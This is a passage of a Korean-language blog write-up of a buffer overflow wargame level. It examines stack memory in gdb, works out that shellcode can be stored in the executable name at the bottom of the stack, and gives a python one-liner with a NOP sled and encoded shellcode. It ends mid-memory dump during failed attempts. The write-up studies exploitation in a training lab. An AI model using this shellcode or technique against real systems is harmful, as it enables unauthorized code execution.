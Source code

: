 ```bash
edx            0xbffffda0       -1073742432  // argv[0]
edx            0xbffffdba       -1073742406  // argv[1]
edx            0xbffffdeb       -1073742357  // argv[2]
```

#### memset() 하기 이전

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-2.png)

#### memset() 한 이후 : argv[] 를 모두 0으로 clear

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-1.png)

## 2. 공격 방법 고민

환경변수도 clear 시키고… argv[] 도 모두 clear 시킨다. 그렇다면 shellcode 를 어디에 올려놓을 수 있을까 ???

### Stack을 좀더 찾아보자

혹시나 하는 마음에 stack bottom 까지 찾아보자. 앗… stack bottom 에 뭔가 값이 남아있다. main 함수가 실행되기 이전에 실행파일이름이 스택에 저장이 되는 듯하다. main 함수 실행되기 이전 stack 에 쌓이기 때문에 argc hunter 동작이후에도 남아있는 듯 하다.

```bash
0xbfffffe1:      ""
0xbfffffe2:      "/home/vampire/./skeleton2"
0xbffffffc:      ""

0xbfffffcc:     0x00000000      0x00000000      0x00000000      0x00000000
0xbfffffdc:     0x00000000      0x682f0000      0x2f656d6f      0x706d6176
0xbfffffec:     0x2f657269      0x6b732f2e      0x74656c65      0x00326e6f
0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
```

## 3. 공격

### 3.1  공격.. 계속 실패

[LEVEL8](http://humb1ec0ding.github.io/2015/11/13/hackerschool-BoF-stage-8.html)에서 사용한 실행파일이름에 shellcode 를 올려두어야 하므로 `0x2f`=`\` 없는 shellcode 를 이용해야 한다. 아래 shellcoe 를 이용하여 이전과 같은 방식으로 실행을 하는데 계속 fault 가 나는 것이다.

```bash
`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

`LR`은 `0xbfffffa0` 로 선택.

```bash
0xbffffed0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffee0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffef0:     0x00000000      0x6f682f00      0x762f656d      0x69706d61
0xbfffff00:     0x902f6572      0x90909090      0x90909090      0x90909090
0xbfffff10:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff20:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff30:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff40:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff50:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff60:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff70:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff90:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffffa0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffffb0:     0x90909090      0x90909090      0x90909090      0x90909090
```